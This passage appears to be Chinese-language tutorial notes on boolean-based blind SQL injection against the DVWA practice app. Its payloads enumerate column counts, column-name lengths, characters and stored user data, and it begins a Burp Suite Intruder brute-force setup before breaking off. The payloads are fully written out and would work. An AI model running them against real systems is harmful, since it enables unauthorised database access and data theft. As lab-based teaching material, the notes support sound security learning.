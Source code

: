 ### 判断字段个数

```sql
select * from users where user_id='1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')=8 #'		# 判断出dvwa数据库下的users有8个字段信息
```

### 判断字段长度

```sql
select * from users where user_id='1' and (select length(group_concat(column_name)) from information_schema.columns where table_schema=database() and table_name='users')=73 #'		# 判断出dvwa数据库下的users表当中的8个字段一共有73个字符（第一个字段字符长度xx，第二个字段字符长度xx，…………）
select * from users where user_id='1' and (select length(column_name) from information_schema.columns where table_schema=database() and table_name='users' limit 0,1)=7 #'
select * from users
```

### 判断字段

```sql
select * from users where user_id='1' and (select ascii(mid((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 3,1),2,1))=115) #'		# 判断出dvwa数据库的users当中的第4个字段的第二个字符为s
```

### 判断数据

```sql
select * from users
select user from users limit 0,1
select mid((select user from users limit 0,1),3,1)
select ord(mid((select user from users limit 0,1),3,1))
select ord(mid((select user from users limit 0,1),3,1))>96
select ord(mid((select user from users limit 0,1),3,1))=109
```

### burpsuite(爆破)进行布尔盲注

案例：通过BP的Intruder模块爆破数据库中的第二张表名

1、手注代码

```sql
select * from users where user_id='1' and (select ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=117) #'
```

2、变量参数设置
